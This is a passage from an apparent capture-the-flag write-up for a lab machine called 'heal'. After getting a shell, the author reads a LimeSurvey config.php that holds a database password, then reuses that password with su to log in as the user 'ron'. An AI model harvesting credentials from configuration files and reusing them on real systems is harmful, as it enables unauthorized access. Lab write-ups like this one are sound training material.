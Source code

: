 Once access to the file system has been obtained its best to look for configuration files. Configuration files will typically contain usernames and passwords for databases. These passwords may be reused on other parts of the system. They will also grant access to the database which can then be dumped.

### LimeSurvey Configuration Files

Directory listings of the configuration files of interest.

```console
www-data@heal:~/limesurvey/application/config$ ls
ls
config-defaults.php	  console.php	packages.php	   tcpdf.php
config-sample-dblib.php   email.php	questiontypes.php  updater_version.php
config-sample-mysql.php   fonts.php	rest		   vendor.php
config-sample-pgsql.php   index.html	rest.php	   version.php
config-sample-sqlsrv.php  internal.php	routes.php
config.php		  ldap.php	security.php
```

### config.php

The config file contained a username and password for the database.

```php
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
```

# Password Reuse Test

In this case the password was reused and granted access to the `ron` user.

```console
www-data@heal:~/limesurvey/application/config$ su - ralph 
su - ralph
Password: AdmiDi0_pA$$w0rd

su: Authentication failure
www-data@heal:~/limesurvey/application/config$ su - ron 
su - ron
Password: AdmiDi0_pA$$w0rd

ron@heal:~$ id
id
uid=1001(ron) gid=1001(ron) groups=1001(ron)
```

# User Flag Captured

The `ron` users home directory contained the user flag.
